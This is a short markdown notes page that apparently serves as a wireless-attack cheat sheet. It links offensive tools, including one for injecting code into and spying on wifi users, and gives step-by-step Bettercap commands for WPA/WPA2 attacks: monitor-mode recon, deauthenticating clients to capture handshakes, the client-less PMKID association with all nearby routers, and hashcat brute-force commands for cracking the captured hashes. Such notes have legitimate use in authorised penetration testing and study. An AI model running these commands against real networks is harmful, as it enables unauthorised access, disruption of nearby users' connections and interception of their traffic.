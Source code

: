 # Tools

- [Beginner's Guide to Impacket Tool kit (Part 1)](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/)
- Inject code and spy on wifi users: <https://github.com/DanMcInerney/LANs.py>
- Collection of PowerShell network security scripts for system administrators: <https://github.com/thom-s/netsec-ps-scripts>
- [CyberScan: Network's Forensics ToolKit](https://github.com/medbenali/CyberScan)

# BetterCap

Swiss army knife for network attacks and monitoring: <https://www.bettercap.org/>

> Pwning WPA/WPA2 Networks With Bettercap and the PMKID Client-Less Attack: <https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/#.XGRV3mo06jA.twitter>

## 4 way handshake capture:

```
sudo bettercap -iface wlan0

# this will set the interface in monitor mode and start channel hopping on all supported frequencies
> wifi.recon on
# we want our APs sorted by number of clients for this attack, the default sorting would be `rssi asc`
> set wifi.show.sort clients desc
# every second, clear our view and present an updated list of nearby WiFi networks
> set ticker.commands 'clear; wifi.show'
> ticker on
```

```
wifi.recon.channel 1
```

```
wifi.deauth e0:xx:xx:xx:xx:xx
```

## Cracking 4-way handshake

```
/path/to/cap2hccapx /root/bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx
/path/to/hashcat -m2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
```

## Client-less PMKID Attack

> <https://hashcat.net/forum/thread-7717.html>

> PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)

```
# wifi.assoc supports 'all' (or `*`) or a specific BSSID, just like wifi.deauth
> wifi.assoc all
```

All nearby vulnerable routers (and let me reiterate: a lot of them are vulnerable), will start sending you the PMKID, which bettercap will dump to the usual pcap file:

## PMKID Cracking

```
/path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
/path/to/hashcat -m16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
```
